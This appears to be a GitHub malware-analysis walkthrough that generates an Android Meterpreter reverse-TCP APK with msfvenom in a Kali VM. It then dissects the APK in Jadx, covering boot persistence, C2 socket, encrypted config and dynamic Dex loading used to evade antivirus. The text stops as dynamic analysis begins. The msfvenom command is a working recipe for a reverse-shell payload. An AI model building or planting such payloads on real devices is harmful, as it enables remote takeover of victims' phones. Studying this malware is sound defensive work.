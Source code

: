 # Analysing MSFVenom Android Payload (Malware)

MSFVenom is one of the most popular framework to create payloads, shellcodes, etc. I want to analyse a little bit a MSFVenom Android payload. So
<p align="center">
<img src="https://user-images.githubusercontent.com/36133745/164783235-d8df38a6-e0f3-4e68-9f64-57fa21b98435.gif">
</p>

## 🎬 Part 1 - Creating an Android payload with MSFVenom
Run your Kali Linux distibution (I use vagrant kalilinux/rolling box) and open a terminal.
```bash
# Installing Kali Linux Box
vagrant box add kalilinux/rolling

# Create a Kali Linux VM
mkdir -p /home/$USER/Desktop/vagrantmachines/kali
cd /home/$USER/Desktop/vagrantmachines/kali
vagrant init kalilinux/rolling

# Set Kali Network to Bridge
# Add below line into Vagrantfile file below config.vm.box = "kalilinux/rolling"
  config.vm.network "public_network"
# Save and Exit from Vagrantfile

# Execute Kali Machine
vagrant up

# SSH to Kali Machine
vagrant ssh

# If you want to turn it off just execute below command after you exit from ssh
vagrant halt
```

Simply execute below command.
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=$(ip addr show eth0 | grep -Po 'inet \K[\d.]+') LPORT=1337 > malicious.apk
```
* `-p`: choosing payload
* `LHOST`: listener IP address (C2)
* `LPORT`: listener Port number (C2)
* `> malicious.apk`: output of executed command (attacker payload)

After that, I copy **malicious.apk** to `/vagrant` which let me to access it from my computer.
```bash
cp malicious.apk /vagrant
```
## 🎬 Part 2 - Static Analysis with Jadx-Gui

Now I have **malicious.apk** besides **Vagrantfile**. Let's start static analysis.
Open it with Jadx-Gui. Let's see what AndroidManifest.xml does have for us.

![1](https://user-images.githubusercontent.com/36133745/166328267-ec5c9ddb-8230-46af-a575-adfddb1e6d27.png)

We have an activity called `MainActivity` (package: `com.metasploit.stage`) which is our first activity that'll execute.

![2](https://user-images.githubusercontent.com/36133745/166329390-42daa913-cba3-47cf-a4a4-2e2a4c920286.png)

We can also see there is a `BroadcastReceiver` with `android.intent.action.BOOT_COMPLETED` action. It is obvious that this malware use this permission to execute itself after restarting mobile.

![3](https://user-images.githubusercontent.com/36133745/166330015-7593e85c-5e8b-41fc-8b68-32822610297c.png)

Let's have a look at `MainActivity`. It simply calls `startService()` method from `MainService` class.

![4](https://user-images.githubusercontent.com/36133745/166330313-13e44b33-d638-415b-8e96-2b58dd130cce.png)

`MainService` class extended (inherited) from Service, so it's a service that we are dealing with.

![5](https://user-images.githubusercontent.com/36133745/166335467-a7932269-6aeb-466d-b9a2-564b14362811.png)

In this method again `startService` function called, but as we said we are in a service and it calls `MainService.class` in `Intent()`.
```java
public static void startService(Context context) {
    context.startService(new Intent(context, MainService.class));
}
```

So this time `onStartCommand()` method will call. `onStartCommand()` is called every time a client starts the service using `startService(Intent intent)`.

![6](https://user-images.githubusercontent.com/36133745/166336169-c9477814-cce5-4b93-88a8-65e24d209fd1.png)

This method, calls `start()` from `Payload` class. Now let's go deeper and see what `start()` method does.

![7](https://user-images.githubusercontent.com/36133745/166661952-7600a5cf-7f6d-439a-9e00-56d015cabfc1.png)

`start()` function calls `startInPath()` function, and `startInPath()` function calls `e().start()` that lead us to analyse that class and method.

![8](https://user-images.githubusercontent.com/36133745/166662358-72e3cd42-f85c-4539-9df1-311b01198ed2.png)

There is nothing but execute `main()` method from `Payload` class again. We have to back where we were and analyze `main()` function.

![9](https://user-images.githubusercontent.com/36133745/166662629-60f69553-b52f-451d-95b3-54b8dca90517.png)

It's a huge function that can't be even fit in one screenshot. We can see there is a `Socket socket` which indicates we are dealing with a socket connection that's probably attacker C2. Also there is a line contains `a a2 = b.a(a);`. It passes `a` variable to `b.a()` method and save results in `a2`. Left-click on `a` parameter and press `d` on your keyboard (that is a shortcut to get you where variable is decalred).

![10](https://user-images.githubusercontent.com/36133745/166663408-d2ac014a-df8f-429f-aa2c-00d5f090a1e9.png)

It seems a huge array which i guess it can be an IP address or an URL. To make sure of this, I go to `b.a()` method.

![11](https://user-images.githubusercontent.com/36133745/166663788-8a4c2e27-2b9d-4e75-b698-266b7faf0ef0.png)

Again it's a huge function, but this is obvious it decrypts that array. I don't want to waste of my time and try to understand that algorithm, I'll deal with it in dynamic analysis part. But we have to figure it out where it stores the decrypted data. You can see `gVar` everywhere in this function.

![12](https://user-images.githubusercontent.com/36133745/166664915-cee79b68-cb99-46dd-bc10-af7a29f91f48.png)

If you open `g()` class, you can see there is nothing but bunch of variables. Now I'm sure it stores the decrypted data in that class's variables.

![13](https://user-images.githubusercontent.com/36133745/166665135-c1c47aa9-a4d6-416a-9abc-cce98874e327.png)

In the `Payload.main()`, after that decryption method, we can see bunch of `while(){}`, `try{}` and `if(){}`.

![14](https://user-images.githubusercontent.com/36133745/166667336-c7e6bacd-461b-497c-864d-919407e9e453.png)

Take a look at where I pointed (ofc with red arrow).

![15](https://user-images.githubusercontent.com/36133745/166668085-a8945a36-98e1-4715-b294-7dc6957edf14.png)


You can see we have a `socket.getOutputStream()` there that passed to `a()`. If you go to where `a()` declared, you see there's `getClassLoader()`. This method let you load the Dex file dynamically. It uses to bypass AV, besides it makes APK file size smaller.

Overall, this APK file connects to attacker C2 (MSFVenom) and downloads a Dex (or JAR) file and loads it. Now Let's continue our journey in dynamic analysis part.

## 🎬 Part 3 - Dynamic Analysis


I use `adb` to install our payload.
```shell
adb install malicious.apk
```
